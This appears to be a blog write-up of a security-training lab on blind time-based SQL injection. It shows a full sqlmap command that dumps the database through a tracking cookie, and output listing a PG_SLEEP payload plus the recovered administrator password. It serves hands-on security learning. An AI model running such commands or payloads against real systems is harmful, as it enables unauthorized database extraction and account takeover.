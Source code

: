 ```yaml
---
layout: post
title:  "Blind SQL injection with time delays and information retrieval"
date:   2024-09-25 09:39:54 +0530
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution 

Assume that let's continue with the previous lab where we found a time based SQL injection and now in the sqlmap we can add the following argument `--dump` which will actually dumps the database with the following command 

```sh
sqlmap -u "https://0ab200aa049122c1847d9bdf00600046.web-security-academy.net/filter?category=Pets" --cookie "TrackingId=4HWFjkvkQS0pdMwd; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i" --dbms="PostgreSQL" --level 2 --threads 5 --dump
```

After sometime, here we found that the `TrackingId` parameter inside cookie is vulnerable to SQL injection 

```sh
[11:29:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:29:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:29:18] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[11:29:19] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[11:29:30] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[11:29:40] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[11:29:50] [INFO] checking if the injection point on Cookie parameter 'TrackingId' is a false positive
Cookie parameter 'TrackingId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 588 HTTP(s) requests:
---
Parameter: TrackingId (Cookie)
    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: TrackingId=4HWFjkvkQS0pdMwd' AND 4567=(SELECT 4567 FROM PG_SLEEP(5))-- AWZm; session=E5Vnrbwa0Xd09dJur4uOtXLo7VR2w65i
```

Finally, After two long hours it worked and got the admin password

```sh
[12:11:49] [INFO] fetching tables for database: 'public'
[12:11:49] [INFO] fetching number of tables for database 'public'
[12:11:49] [INFO] retrieved: 2
[12:12:04] [INFO] retrieving the length of query output
[12:12:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
8
[12:12:57] [INFO] retrieved: ___c____ 1/8 (12%)
[12:12:57] [ERROR] invalid character detected. retrying..
[12:13:26] [INFO] retrieved: tracking           
[12:13:26] [INFO] retrieving the length of query output
[12:13:26] [INFO] retrieved: 5
[12:14:06] [INFO] retrieved: users           
[12:14:06] [INFO] fetching columns for table 'users' in database 'public'
[12:14:06] [INFO] retrieved: 3
[12:14:26] [INFO] retrieving the length of query output
[12:14:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        
5
[12:15:10] [INFO] retrieved: __a__ 1/5 (20%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:20] [INFO] retrieved: _ma__ 2/5 (40%)
[12:15:20] [ERROR] invalid character detected. retrying..
[12:15:34] [INFO] retrieved: ema_l 4/5 (80%)
[12:15:39] [ERROR] invalid character detected. retrying..
[12:15:53] [INFO] retrieved: email           
[12:15:53] [INFO] retrieving the length of query output
[12:15:53] [INFO] retrieved: 8
[12:16:27] [INFO] retrieved: _a______ 1/8 (12%)
[12:16:37] [ERROR] invalid character detected. retrying..
[12:17:01] [INFO] retrieved: password           
[12:17:01] [INFO] retrieving the length of query output
[12:17:01] [INFO] retrieved: 8
[12:17:45] [INFO] retrieved: _se_____ 2/8 (25%)
[12:17:45] [ERROR] invalid character detected. retrying..
[12:17:48] [INFO] retrieved: _se__a__ 3/8 (37%)
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:50] [ERROR] invalid character detected. retrying..
[12:17:59] [ERROR] invalid character detected. retrying..
[12:18:17] [INFO] retrieved: username           
[12:18:17] [INFO] fetching entries for table 'users' in database 'public'
[12:18:17] [INFO] fetching number of entries for table 'users' in database 'public'
[12:18:17] [INFO] retrieved: 3
[12:18:37] [INFO] retrieving the length of query output
[12:18:37] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                        

[12:19:00] [INFO] retrieved:  
[12:19:36] [INFO] retrieving the length of query output
[12:19:36] [INFO] retrieved: 20
[12:20:23] [INFO] retrieved: 9___1_______________ 2/20 (10%)
[12:20:24] [ERROR] invalid character detected. retrying..
[12:20:28] [INFO] retrieved: 9d__1_______________ 3/20 (15%)
[12:20:28] [ERROR] invalid character detected. retrying..
[12:21:33] [INFO] retrieved: 9daf1re9zls_r_______ 12/20 (60%)
[12:21:34] [ERROR] invalid character detected. retrying..
[12:22:22] [INFO] retrieved: 9daf1re9zls_rzycg_q_ 17/20 (85%)
[12:22:31] [ERROR] invalid character detected. retrying..
[12:22:45] [INFO] retrieved: 9daf1re9zlsxrzycg6q2             
[12:22:45] [INFO] retrieving the length of query output
[12:22:45] [INFO] retrieved: 1
[12:23:11] [ERROR] invalid character detected. retrying..
3
[12:23:49] [INFO] retrieved: a__i_________ 2/13 (15%)
[12:23:50] [ERROR] invalid character detected. retrying..
[12:24:28] [INFO] retrieved: administra__r 11/13 (84%)
[12:24:28] [ERROR] invalid character detected. retrying..
[12:24:52] [INFO] retrieved: administrator  
```

Now login with those creds which is username is `administrator` and password is `9daf1re9zlsxrzycg6q2` on successful login.. Lab will be solved 

![]({{ site.baseurl }}/assets/images/sqli53.png)